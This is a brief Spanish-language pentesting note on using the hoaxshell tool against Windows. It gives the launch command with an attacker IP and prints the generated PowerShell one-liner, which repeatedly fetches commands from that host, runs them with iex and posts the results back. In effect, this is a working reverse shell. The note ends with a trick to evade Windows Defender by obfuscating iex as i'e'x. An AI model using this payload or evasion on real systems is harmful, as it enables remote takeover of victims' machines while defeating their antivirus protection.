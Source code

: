 ---------------
- tags: #Windows #Av #Defender #hoaxshell #RCE #cmd #powershell
-------------------

### Usando hoaxshell (de github)
-r: Te da el ouput en "raw". 
-s: IP de atacante

```
python3 hoaxshell.py -s 192.168.1.73 -r
```

*Output:*

```
$s='192.168.1.73:8080';$i='2f5ef625-0dd0df8f-3bce6450';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/2f5ef625 -Headers @{"X-a31e-788c"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/0dd0df8f -Headers @{"X-a31e-788c"=$i}).Content;if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/3bce6450 -Method POST -Headers @{"X-a31e-788c"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```

***Reemplazamos iex por i'e'x para bypassear Windows Defender***




